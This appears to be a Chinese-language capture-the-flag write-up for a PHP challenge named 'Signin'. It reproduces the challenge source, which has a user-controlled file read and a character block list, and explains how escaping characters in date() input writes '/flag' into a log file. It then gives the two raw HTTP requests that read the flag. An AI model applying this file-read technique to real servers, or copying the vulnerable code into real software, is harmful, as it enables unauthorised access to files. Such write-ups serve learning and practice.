


# 前言

好难呜呜

# Signin

代码审计看一下：

```php
<?php
//flag is /flag
$path=$_POST['path'];
$time=(isset($_GET['time'])) ? urldecode(date(file_get_contents('php://input'))) : date("Y/m/d H:i:s");
$name="/var/www/tmp/".time().rand().'.txt';
$black="f|ht|ba|z|ro|;|,|=|c|g|da|_";
$blist=explode("|",$black);
foreach($blist as $b){
    if(strpos($path,$b) !== false){
        die('111');
    }
}
if(file_put_contents($name, $time)){
    echo "<pre class='language-html'><code class='language-html'>logpath:$name</code></pre>";
}
$check=preg_replace('/((\s)*(\n)+(\s)*)/i','',file_get_contents($path));
if(is_file($check)){
    echo "<pre class='language-html'><code class='language-html'>".file_get_contents($check)."</code></pre>";
}

```

告诉了flag在`/flag`，其实就是想办法这里：

```php
if(file_put_contents($name, $time)){
    echo "<pre class='language-html'><code class='language-html'>logpath:$name</code></pre>";
}
$check=preg_replace('/((\s)*(\n)+(\s)*)/i','',file_get_contents($path));
if(is_file($check)){
    echo "<pre class='language-html'><code class='language-html'>".file_get_contents($check)."</code></pre>";
}
```

让`$check`是`/flag`。因此想办法写进log里面的内容是`/flag`。

内容是这样来的：

```php
$time=(isset($_GET['time'])) ? urldecode(date(file_get_contents('php://input'))) : date("Y/m/d H:i:s");
```

关于`date()`，官方手册这句话：



所以不是format字符的将会原样显示。但是`/flag`里面，`lag`都是format字符，就没法原样显示。

再往下看看：



相当于转义了，所以就变得很简单了：

```http
POST /?time=1 HTTP/1.1
Host: 43.155.64.70
Content-Length: 8
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://43.155.64.70
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://43.155.64.70/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

/f\l\a\g
```

```http
POST /?time=1 HTTP/1.1
Host: 43.155.64.70
Content-Length: 41
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://43.155.64.70
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://43.155.64.70/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

path=/var/www/tmp/1637474547599336571.txt
```

